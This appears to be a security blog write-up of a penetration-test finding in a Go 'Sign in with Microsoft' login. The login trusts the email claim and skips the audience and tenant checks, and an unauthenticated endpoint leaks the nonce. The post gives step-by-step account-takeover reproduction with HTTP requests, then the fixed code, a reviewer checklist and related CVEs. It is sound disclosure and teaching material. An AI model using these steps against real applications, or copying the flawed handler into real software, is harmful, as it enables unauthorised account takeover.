

## Spot the flaw first

Before we get into the details, take a look at this simplified version of the “Sign in with Microsoft” implementation I was reviewing. Read through it and see if you can spot the problem.

Take your time. The code *works* exactly as intended from a developer’s perspective, and people use this login flow every day.

```go
// This runs when the browser comes back from Microsoft with a token.
// The token (id_token) is a signed JWT that claims "this is who logged in".
func processSSO(w http.ResponseWriter, r *http.Request) {

    // 1. Grab the token the browser sent us.
    idToken := r.FormValue("id_token")

    // 2. Ask Microsoft for its public keys and check the signature.
    //    If this passes, we know Microsoft really signed this token.
    keys := fetchMicrosoftCommonKeys()
    claims, err := verifySignature(idToken, keys)
    if err != nil {
        http.Error(w, "bad token", 401)
        return
    }

    // 3. Make sure this login matches one we started (anti-replay).
    if claims["nonce"] != nonceWeStoredEarlier(r) {
        http.Error(w, "bad nonce", 401)
        return
    }

    // 4. Figure out WHO this is, using the email in the token.
    email := claims["email"].(string)
    user, found := db.GetUserByEmail(email)
    if !found {
        http.Error(w, "no such user", 401)
        return
    }

    // 5. Log them in.
    issueSession(w, user)
}
```
{: file="the code under review (simplified)" }

Think you’ve found it? Here’s the question that gives away the important part:

> The signature check proves that Microsoft signed the token. But does it prove that the token was actually issued for this application? And does it prove that the person using the token is the user identified by the email claim?
{: .prompt-tip }

The answer to both questions is **no**.

The application is verifying that the token is genuinely signed by Microsoft, but it is **not** verifying the security properties that determine *where that token is intended to be used* or *whether the identity claim can safely be trusted* for account identification.

That distinction is the heart of the vulnerability, and in this case it was enough to turn a seemingly legitimate Microsoft SSO flow into a **full account takeover**.

Let’s walk through how I identified the issue, why the validation was insufficient, and how to reproduce it.

---

## Why I was reading the code in the first place

This was a code-assisted penetration test, sometimes referred to as a white-box or code-reviewed assessment. The client provided both the application’s source code and a running instance of the application. For authentication testing, that combination is extremely valuable because it lets you see not just what the application does, but why it does it.

If you test a “Sign in with Microsoft” flow purely from the outside, you can observe the basic sequence: click the button, get redirected to Microsoft, authenticate, return to the application, and either get logged in or rejected.

But the most important question is happening behind the scenes:

> *What exactly does the server validate before trusting the token and creating a session?*

From the browser, you generally cannot see that decision-making process. A properly implemented authentication flow and a dangerously flawed one can look **almost identical from the outside**. Both can redirect to Microsoft, return with a valid-looking token, and successfully log you in.

The difference is entirely in the **server-side validation**.

That is why I went straight to the authentication code. Rather than trying to infer what the application *should* be checking, I could see exactly what it was checking and, more importantly, *what it wasn't*.

## A 60-second primer on how "Sign in with Microsoft" works

If you already know OIDC, skip this. If not, here's the whole thing in plain terms.

When you click "Sign in with Microsoft", four things happen:

1. The app sends your browser to Microsoft's login page.
2. You type your Microsoft password (the app never sees it).
3. Microsoft hands your browser a **token**, a signed note that says things like "this person's email is x, they belong to company y".
4. Your browser gives that note to the app, and the app reads it to log you in.

The token is a **JWT**. It is just a chunk of text with a bunch of fields (called *claims*) and a digital signature. The signature is what stops you from editing the note yourself. Here are the claims that matter for this bug:

| Claim | Plain meaning | Can an attacker control it? |
|---|---|---|
| `aud` | "This token was made **for this specific app**." | No |
| `iss` | "This token came from **this company's** Microsoft login." | No |
| `tid` | "The person belongs to **this Microsoft tenant** (company)." | No |
| `email` | "Their email address is…" | **Yes** (see below) |
| `sub` / `oid` | A permanent ID for the person that never changes. | No |
| `nonce` | A random value tying the token to a login the app just started. | No (but see Step 3) |

The one crucial fact that makes this whole attack work:

> **Anyone can create their own Microsoft tenant in a few minutes**, and as the admin of that tenant they can set any user's `email` field to whatever they want, including *your* email address. Microsoft lets them, because `email` was never meant to prove identity. The *app* is supposed to know that. This one didn't.
{: .prompt-warning }

## Step 1: Finding the code (three greps)

Whenever I review code that handles “Sign in with X”, I look for the exact point where a token transitions from attacker-controlled input to trusted authentication data.

That boundary is often where authentication bugs hide. In a Go codebase, I can usually find it quickly with a few targeted searches:

```bash
# Where does the app read tokens?
rg -n 'jwt\.(Parse|ParseWithClaims|Decode)' --type go

# Where does it get the keys to check signatures?
# ("common" is a big red flag, more on that below)
rg -n 'jwks|/common/|openid-configuration' --type go

# Which claims does it actually look at?
rg -n '"(aud|iss|tid|sub|oid|email|preferred_username|nonce)"' --type go
```
{: file="the searches I ran" }

That last search was the key. In a properly implemented SSO flow, I would expect to see the application explicitly validating claims such as `aud`, `iss`, and `tid` against known, expected values before trusting the token.

Here, `aud` and `tid` were **nowhere in the login path at all**. Meanwhile, `email` appeared throughout the authentication logic.

The search results led directly to `processSSO` in `/api/src/sso.go`, the same function we looked at earlier.

## Step 2: Understanding why it's broken

Let me annotate the same handler again, this time pointing at exactly what's missing:

```go
func processSSO(w http.ResponseWriter, r *http.Request) {
    idToken := r.FormValue("id_token")

    // PROBLEM #1: "Common" keys sign tokens for EVERY company on Earth.
    // Passing this check only proves "some Microsoft tenant signed this."
    // It does NOT prove the token came from the RIGHT company.
    keys := fetchMicrosoftCommonKeys()
    claims, err := verifySignature(idToken, keys)
    if err != nil {
        http.Error(w, "bad token", 401)
        return
    }

    // The nonce check is fine on its own...
    if claims["nonce"] != nonceWeStoredEarlier(r) {
        http.Error(w, "bad nonce", 401)
        return
    }

    // PROBLEM #2: The app trusts the "email" field to decide who you are.
    // But email is just text the token issuer chose. A rogue tenant admin
    // can set it to anyone's address. It is NOT proof of identity.
    email := claims["email"].(string)
    user, found := db.GetUserByEmail(email)
    if !found {
        http.Error(w, "no such user", 401)
        return
    }

    // MISSING ENTIRELY:
    //    - Is claims["aud"] == our app's client ID?   (was this token meant for us?)
    //    - Is claims["tid"] a company we actually trust?
    //    - Is claims["iss"] the matching issuer for that company?

    issueSession(w, user)
}
```
{: file="/api/src/sso.go: the bug, annotated" }

In one sentence: the application verifies that Microsoft **signed** the token, but **never** verifies that the token was *intended for this application* or *issued by a trusted organisation*, and then uses an email address that the attacker can control to decide who they are.

## Step 3: The second bug that removed the last hurdle

There was one thing still in my way: the `nonce`. To forge a valid login, I needed a token containing a `nonce` that the application was expecting.

So I searched for other places where `nonce` was used, and found this on an **unauthenticated** endpoint:

```go
// /api/src/sessions.refresh.go
func validateAccountName(w http.ResponseWriter, r *http.Request) {
    ssoURL, nonce, state := buildSSOLoginURL(account)

    // This hands the nonce and state to ANYONE who asks,
    //    before they've logged in. That defeats the anti-replay check.
    writeJSON(w, map[string]any{
        "ssoLoginUrl": ssoURL,
        "nonce":       nonce,   // <-- leaked
        "state":       state,   // <-- leaked
    })
}
```
{: file="/api/src/sessions.refresh.go: the leak" }

This was almost certainly leftover development code. In production, however, it had a much more serious consequence: I could simply **ask the application for a fresh `nonce`** and then use that value when constructing my forged token.

There was another way to obtain the same value. Because the `nonce` was part of the SSO login flow, it was also possible to intercept the redirect to Microsoft, capture the required `nonce` from the request, and then *drop the request* instead of completing the login. This meant I did not even need to rely on the exposed endpoint to obtain a valid `nonce`.

Either way, the application's one meaningful defence against replay *was no longer a defence at all*. It was effectively handing out the exact value I needed to satisfy its own `nonce` check.

## Step 4: The exploit, start to finish

Here's the whole attack at a glance:



Everything below is reproducible with a free Azure account and Burp Suite. All identifiers are placeholders.

### 4.1: Create your own Microsoft tenant

Sign up for a free Azure account, which gives you your own tenant (your own "company" in Microsoft's world). Inside it, register a new application:

- **Application type:** Single-page application (SPA). This lets you receive a token directly in the browser with **no client secret needed**.
- **Redirect URI:** `http://localhost`. Microsoft allows `localhost` for SPAs, so the token lands right in your own address bar. No server required.

Write down two values from the app registration:

```text
tenant_id = aaaaaaaa-bbbb-cccc-dddd-eeeeeeeeeeee   # your tenant
client_id = 11111111-2222-3333-4444-555555555555   # your app
```

### 4.2: Make a user that impersonates the victim

In your tenant, create any user. Then edit its **Email** field to match the person you want to become:

```text
Sign-in name : poc@attacker-tenant.onmicrosoft.com   # your real login
Email        : admin@targetcorp.example              # the victim's email
```

That's the trick, right there. Microsoft lets you, the tenant admin, put *any email you like* on your own users. The target app trusts that email **blindly**.

### 4.3: Steal a nonce from the app

Send the unauthenticated request that leaks the nonce and state:

```http
GET /v2/sessions/{accountSlug} HTTP/2
Host: api.example.app
Accept: application/json
```

The response hands you both values:

```json
{
  "ssoLoginUrl": "https://login.microsoftonline.com/<real-tenant>/oauth2/v2.0/authorize?client_id=<real-client>&response_type=id_token&redirect_uri=https%3A%2F%2Fapp.example.app%2Fcallback&response_mode=fragment&scope=openid+profile&nonce=00112233445566778899aabbccddeeff&state=ffeeddccbbaa99887766554433221100"
}
```

Copy the `nonce` and `state` out of that URL.

### 4.4: Rewrite the login URL to point at your tenant

Take the URL the app gave you and change three things (your tenant, your client, your redirect URI) while **keeping the stolen nonce and state exactly as they are**:

```text
https://login.microsoftonline.com/aaaaaaaa-bbbb-cccc-dddd-eeeeeeeeeeee/oauth2/v2.0/authorize
  ?client_id=11111111-2222-3333-4444-555555555555     # changed: your client
  &redirect_uri=http%3A%2F%2Flocalhost                # changed: your redirect
  &response_type=id_token
  &response_mode=fragment
  &scope=openid+profile
  &nonce=00112233445566778899aabbccddeeff             # kept: stolen from the app
  &state=ffeeddccbbaa99887766554433221100             # kept: stolen from the app
```

Open that URL in a private browser window and sign in as **your own** user in **your own** tenant. Microsoft redirects you to `http://localhost/#id_token=eyJ...`. The browser will show "This site can't be reached". That's fine, the token is sitting right there in the address bar. Copy everything after the `#`.

If you decode that token (paste it into any JWT decoder), you'll see the problem laid bare:

```json
{
  "aud": "11111111-2222-3333-4444-555555555555",
  "iss": "https://login.microsoftonline.com/aaaaaaaa-bbbb-cccc-dddd-eeeeeeeeeeee/v2.0",
  "tid": "aaaaaaaa-bbbb-cccc-dddd-eeeeeeeeeeee",
  "email": "admin@targetcorp.example",
  "preferred_username": "poc@attacker-tenant.onmicrosoft.com",
  "nonce": "00112233445566778899aabbccddeeff"
}
```

Now look at where each claim actually points:

| Claim | What it says | Whose is it, really? |
|---|---|---|
| `aud` | my app registration's client ID | **Mine** (not the target app) |
| `iss` | issued by my tenant's endpoint | **Mine** |
| `tid` | my rogue tenant | **Mine** |
| `email` | `admin@targetcorp.example` | The **victim's**, a value *I typed in by hand* |
| `preferred_username` | `poc@attacker-tenant.onmicrosoft.com` | **Me**, my actual account |
| `nonce` | matches the app's expected value | **Stolen from the app** in the previous step |

Every single claim *screams attacker*, except the one field the app decided to trust: `email`.

### 4.5: Send the token to the app and become the victim

Take the `id_token`, `state`, and `session_state` from the redirect and POST them to the app's login endpoint:

```http
POST /v1/sso/microsoft HTTP/2
Host: api.example.app
Content-Type: application/x-www-form-urlencoded

id_token=eyJ0eXAiOiJKV1Qi...&state=ffeeddccbbaa99887766554433221100&session_state=6e1c8f2b...
```

The app checks the signature (passes, Microsoft really did sign it), checks the nonce (passes, you stole a real one), reads the email (`admin@targetcorp.example`), finds that user, and logs you in:

```http
HTTP/2 302 Found
Location: https://app.example.app/sso/callback?t=eyJhbGciOiJIUzI1NiI...
```

Open that `Location` URL in a private window and you're staring at the victim's dashboard, *fully logged in*. In this engagement the victim was the **tenant administrator**, so this was **game over**: every document, every user, every setting in the platform.

**No password. No phishing. No action from the victim.** CVSS 3.1 rated it **10.0 Critical** (`AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H`), CWE-290 Authentication Bypass by Spoofing.

## Step 5: The fix (and why "check harder" isn't it)

The reflex after a JWT bug is to look at the signature. But the signature was never the problem; it was correct the whole time. This is an **authorization** mistake, not a crypto one. The token was authentic; it just wasn't *for this app* and didn't come from *a trusted company*.

Here's the corrected handler, commented:

```go
// Only these Microsoft tenants (companies) are allowed to log in.
// You add to this list deliberately as you onboard each customer.
var trustedTenants = map[string]bool{
    "<a-customer-tenant-guid>": true,
}

// This is OUR app's client ID. A token not made for us must be rejected.
const ourClientID = "<our-app-client-id>"

func processSSO(w http.ResponseWriter, r *http.Request) {
    claims, err := verifySignature(r.FormValue("id_token"), fetchMicrosoftKeys())
    if err != nil {
        http.Error(w, "bad token", 401)
        return
    }

    // CHECK 1: Was this token actually made for us?
    if claims["aud"] != ourClientID {
        http.Error(w, "token wasn't issued for this app", 401)
        return
    }

    // CHECK 2: Does the person belong to a company we trust?
    tid, _ := claims["tid"].(string)
    if !trustedTenants[tid] {
        http.Error(w, "untrusted tenant", 401)
        return
    }

    // CHECK 3: Does the issuer match that same company? (belt and braces)
    if claims["iss"] != "https://login.microsoftonline.com/"+tid+"/v2.0" {
        http.Error(w, "issuer mismatch", 401)
        return
    }

    // CHECK 4: Anti-replay, as before.
    if claims["nonce"] != nonceWeStoredEarlier(r) {
        http.Error(w, "bad nonce", 401)
        return
    }

    // Identify the user by PERMANENT IDs (tenant + object ID),
    // never by the changeable email field.
    user, found := db.GetUserByTenantAndObjectID(tid, claims["oid"].(string))
    if !found {
        http.Error(w, "no linked account", 401)
        return
    }

    issueSession(w, user)
}
```
{: file="/api/src/sso.go: fixed" }

Two things to take away:

- **The tenant allowlist is the real fix.** If your app serves one company, use that company's specific login URL instead of `common` and reject everything else. If it serves many, "which companies do we trust" has to be a deliberate list in your database, not "anyone with a Microsoft account."
- **Identify people by `tid` + `oid`, never by `email`.** Those two together are permanent and can't be faked by a tenant admin. If you need to invite users by email, match the email **once** when they accept the invite, then lock the account to their `tid` + `oid` forever after.

And don't forget the smaller bug: **stop returning `nonce` and `state` from that unauthenticated endpoint.** They're one-time secrets; handing them out defeats their entire purpose.

## A checklist for fellow reviewers

Next time you review "Sign in with Microsoft" (or Google, or any OIDC login), ask three questions:

1. **Does it fetch keys from a multi-tenant URL** (`/common/`, `/organizations/`)? If yes, it *must* check `tid` against a trust list. No exceptions.
2. **Is `aud` compared to the app's own client ID anywhere?** If not, the app will happily accept tokens minted for completely different applications.
3. **What field does the user lookup use?** If it's `email`, `upn`, or `preferred_username`, you very likely have this exact bug.

A valid signature only tells you a token is *real*. It says nothing about whether it was meant for you, or who's really behind it. Those are separate questions, and the code has to ask them out loud.

## This wasn't a one-off

After this engagement I compared notes with [Sujal Tuladhar](https://sujaltuladhar.com.np/) ([evilgensec](https://github.com/evilgensec)), and we realised the pattern was almost certainly not unique to one application. So Sujal went looking, and found the exact same class of flaw in widely used open-source projects, reporting it and getting it fixed in each.

The common thread is precisely what you just read: an SSO login linked to a local account by a **controllable email claim**, without the application confirming the identity provider had actually *verified* that email. With a default multi-tenant Microsoft setup, any attacker who can spin up their own tenant can set their email to a victim's and walk in.

### Zammad ([CVE-2026-84458](https://github.com/zammad/zammad/security/advisories/GHSA-86cc-3ggh-mf2m), CVSS 9.1 Critical)

Affected Zammad `<= 7.1.1` (fixed in `7.1.2`); `CVSS:4.0/AV:N/AC:L/AT:P/PR:N/UI:N/VC:H/VI:H/VA:N/SC:N/SI:N/SA:N`. With "Automatic account link on initial logon" enabled, Zammad matched an incoming third-party identity to a local account by email address alone, without checking that the provider had confirmed ownership of it. Because Zammad ships a **multi-tenant Microsoft 365** (`/common`) integration by default, an attacker in *any* Azure AD tenant could set their identity's email to a victim's, authenticate, and take over that account, including agents and administrators. This maps to CWE-287 (Improper Authentication). The fix now honours the `xms_edov` ("email domain owner verified") ID-token claim when email verification is required, and treats an absent claim as unverified.

### Vikunja ([CVE-2026-62367](https://github.com/go-vikunja/vikunja/security/advisories/GHSA-xv7q-fvmc-jx96), High)

Affected Vikunja `1.0.0` through `2.3.0` (fixed in `2.4.0`). When the OIDC `emailfallback` option was enabled, Vikunja's `fallbackSearchUsers` linked SSO logins to existing local accounts using the email claim while **skipping the `email_verified` check**. Any issuer that can assert an unverified email let an attacker take over any existing local account, with full read/write/delete access to that user's projects, tasks, and attachments, no password and no victim interaction. It carries CWE-287, CWE-290 (Authentication Bypass by Spoofing), and CWE-345 (Insufficient Verification of Data Authenticity). TOTP-protected accounts were the only ones spared.

> And these are just the ones public so far. There's at least one more CVE still going through the assignment and disclosure process, and going by how often this pattern turns up, plenty more to come. ;)

Same story told twice: *a valid signature (or a successful SSO login) was mistaken for a verified identity.* If your project consumes Microsoft or any OIDC tokens, run the three-question checklist above against your own code, and add a fourth: **does the provider say this email is verified, and do you actually check that flag?**

## References

- [Microsoft identity platform ID tokens](https://learn.microsoft.com/en-us/entra/identity-platform/id-tokens)
- [Validate claims in tokens](https://learn.microsoft.com/en-us/entra/identity-platform/claims-validation)
- [OpenID Connect on the Microsoft identity platform](https://learn.microsoft.com/en-us/entra/identity-platform/v2-protocols-oidc)
- [CWE-290: Authentication Bypass by Spoofing](https://cwe.mitre.org/data/definitions/290.html)
- [evilgensec (Sujal Tuladhar) on GitHub](https://github.com/evilgensec)
- [Zammad advisory GHSA-86cc-3ggh-mf2m (CVE-2026-84458)](https://github.com/zammad/zammad/security/advisories/GHSA-86cc-3ggh-mf2m)
- [Vikunja advisory GHSA-xv7q-fvmc-jx96 (CVE-2026-62367)](https://github.com/go-vikunja/vikunja/security/advisories/GHSA-xv7q-fvmc-jx96)
